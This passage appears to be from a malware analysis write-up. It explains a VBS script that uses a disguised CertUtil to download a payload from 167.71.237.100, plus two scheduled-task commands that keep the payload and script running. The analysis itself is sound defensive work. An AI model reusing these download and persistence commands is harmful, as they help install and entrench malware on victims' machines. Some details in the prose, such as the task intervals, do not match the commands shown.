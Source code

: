 &nbsp;


<span style="font-size:small;"> Shown below: Photo.vbs script</span>
{% highlight text %}
wscript.sleep 3000:wscript.createobject("wscript.shell").run "%windir%\system32\spool\drivers\color\GoogleUpdate.exe -f -u""rlca""che ""h""tt""p"":/""/167.71.237.100/%ComputerName%.png"" %temp%\%ComputerName%.tmp",0,0
{% endhighlight %}

&nbsp;


Stepping through this script, we can break it down to two parts - first it calls *"wscript.sleep"* which causes it to suspend the execution of the script for a specified number of milliseconds (in this case, 3000). Second, we see it call *"wscript.createobject("wscript.shell").run"*, which allows you to run a cmdline command from a .vbs script. This runs GoogleUpdate.exe, which we previously identified as CertUtil.exe, with the -f and -urlcache flags to force fetch a specified URL and update the cache. The URL provided (*167.71.237.100/%ComputerName%.png*) requests a file based off the user's computer name (i.e. *USER-PC*), which is then stored in the user's local temp folder as a .tmp file.

&nbsp;


Next, I observed *OSE91E4.tmp* launch two child *cmd.exe* processes with the following parameters:


<span style="font-size:small;"> Shown below: "Google-Updates" scheduled task</span>
{% highlight text %}
cmd /c schtasks /create /sc MINUTE /tn "Google-Updates" /tr "msiexec /q /i %temp%\%ComputerName%.tmp" /mo 3 /F
{% endhighlight %}

&nbsp;


The first *cmd.exe* calls schtasks to create a scheduled task called "*Google-Updates*", which utilizes "*msiexec*" to execute the downloaded payload "*[ComputerName].tmp*" from the user's local temp folder once every minute. This would be used to maintain persistence once the secondary payload was downloaded.

&nbsp;


<span style="font-size:small;"> Shown below: "Google-Update" scheduled task</span>
{% highlight text %}
cmd /c schtasks /create /sc MINUTE /tn "Google-Update" /tr "wscript /b %windir%\system32\spool\drivers\color\Photo.vbs" /mo 2 /F
{% endhighlight %}

&nbsp;


The second *cmd.exe* calls schtasks to create a scheduled task called "*Google-Update*" (note the missing "s" in comparison to the prior scheduled task. Due to the /F flag, even if they had identical names, it would forcefully create the task and suppresses warnings if the specified task already existed). This utilizes wscript to run "Photo.vbs" from the user's local temp folder once every minute.
